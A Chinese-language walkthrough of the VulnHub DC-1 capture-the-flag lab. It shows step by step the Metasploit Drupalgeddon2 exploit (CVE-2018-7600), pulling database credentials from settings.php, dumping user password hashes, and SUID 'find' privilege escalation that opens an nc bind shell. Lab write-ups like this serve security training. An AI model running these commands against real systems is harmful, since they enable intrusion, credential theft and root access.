# DC1 

 - [参考资料](https://mzfr.github.io/vulnhub-writeups/2019-07-12-DC1)
 - [参考资料](https://www.jianshu.com/p/b659f4619c88)

 - [下载地址](https://www.vulnhub.com/entry/dc-1,292/)

首先导入虚拟机 记得关掉 虚拟机中的  USB 设置 并更改对应的网络中的网卡。


打开虚拟机会看到这样的画面


使用nmap扫描一下网段 查看靶场是那个ip

```
nmap -sP 192.168.31.0/24
```


```
nmap -sT -sV -T5 -A -p 192.168.31.42
```

我们扫描出了一些常用端口，让我们从网站开始。

查看 `192.168.31.35:80`


发现目标cms 是 Drupal Site 6，7，8多个版本存在远程代码执行.丢硬币选一个吧！😜


搜索发现Drupal Site有不少漏洞 我们尝试一下 `CVE-2018-7600` 使用 MSF 尝试一下

```
use exploit/unix/webapp/drupal_drupalgeddon2
options
set RHOSTS 192.168.31.35
exploit
```



拿到meterpreter。

ls查看一波



百度搜索发现，drupal的数据库配置文件在 `sites/default/settings.php` 

```
cat sites/default/settings.php
```

得到数据库连接信息


顺便还有 Flag2 的信息

```
暴力破解和字典攻击并不是获得访问权限的唯一途径(你也需要访问权限)。你能用这些凭证做什么
```

执行如下命令：
```
meterpreter > shell
python -c "import pty;pty.spawn('/bin/bash')"
www-data@DC-1:/var/www/sites/default$ //执行完之后可获得python提供的标准shell
```

输入 `mysql -u dbuser -pR0ck3t` 连接数据库



查看所有数据库

```
show databases;
information_schema 
drupaldb 
```

查询一下数据库中的表
```
select table_name from information_schema.tables where table_schema='drupaldb' and table_type='base table';
```




查看一波users 表

```
select column_name from information_schema.columns where table_schema='drupaldb' and table_name='users';
```

```
select column_name from information_schema.columns where table_schema='drupaldb' and table_name='users';
```

查询表 中数据 
```
select name,pass from users;
```


只能抓取后跑一下 `hashcat` 
(略 因为我没成功 )

最后在神奇的百度下知道了admin 的 密码。
`53cr3t`



这就找到了 `flag3` (其实全靠百度)


更具flag3中的提示 我们直接去passwd文件中查看一下



本来打算搜一下flag4的没想到flag1文件也找到了 先看看flag1是啥



那 没 事 了 。

```
cat /home/flag4/flag4.txt
```




就我不配呗？

尝试找到具有root权限的suid
```
find / -perm -u=s -type f 2>/dev/null
```


发现其中 有 find 命令可以执行

## find提权

-[suid 提权教程](https://blog.csdn.net/qq_36119192/article/details/84872644)

可以看到find命令以root权限运行。
`使用find 命令执行 whoami `
/usr/bin/find  -exec whoami \;



/usr/bin/find -exec nc -lvp 9999 -e /bin/sh \;




我是把脑袋塞到马桶里都想不出来。


结束了！！！ 加油 奥里给

## 总结

该靶场大致要点为： 
1. Metasploit的EXP使用
2. drupal 7的漏洞
3. hashcat 爆破
4. find 提权

更新笔记：
1. 内网渗透
2. 渗透工具
3. 提权骚操作


